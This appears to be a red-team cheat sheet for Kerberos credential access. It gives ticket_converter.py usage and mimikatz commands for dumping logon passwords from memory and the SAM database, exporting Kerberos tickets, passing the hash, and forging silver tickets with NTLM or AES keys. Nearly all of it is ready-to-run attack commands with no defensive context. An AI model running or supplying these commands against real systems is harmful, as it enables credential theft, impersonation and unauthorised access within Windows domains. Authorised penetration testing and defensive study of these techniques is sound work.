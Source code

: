 
# ticket_converter.py
- service: kerberos
- tactics: credential_access

## convert tickets between linux / windows format
[ticket_converter.py](https://github.com/Zer1t0/ticket_converter):

- `python ticket_converter.py ticket.kirbi ticket.ccache`
- `python ticket_converter.py ticket.ccache ticket.kirbi`

### to use ticket 
> search for gettgt.py 

---

# mimikatz
- service: kerberos
- tactics: credential_access

## enable log
- `log filename.log`

## enable debug mode
- `privilege::debug`

## dump passwords from memory
- `sekurlsa::logonpasswords`

## dump passwords from sam database
- `lsadump::sam /system:f:\SYSTEM /sam:f:\SAM`

## export tickets
- `sekurlsa::tickets /export`

## pass the hash
- `sekurlsa::pth /user:username /domain:domain.tld /ntlm:ntlm_hash`

## silver_ticket
### to generate the TGS with NTLM
- `mimikatz # kerberos::golden /domain:<domain_name>/sid:<domain_sid> /rc4:<ntlm_hash> /user:<user_name> /service:<service_name> /target:<service_machine_hostname>`

### to generate the TGS with AES 128 key
- `mimikatz # kerberos::golden /domain:<domain_name>/sid:<domain_sid> /aes128:<krbtgt_aes128_key> /user:<user_name> /service:<service_name> /target:<service_machine_hostname>`
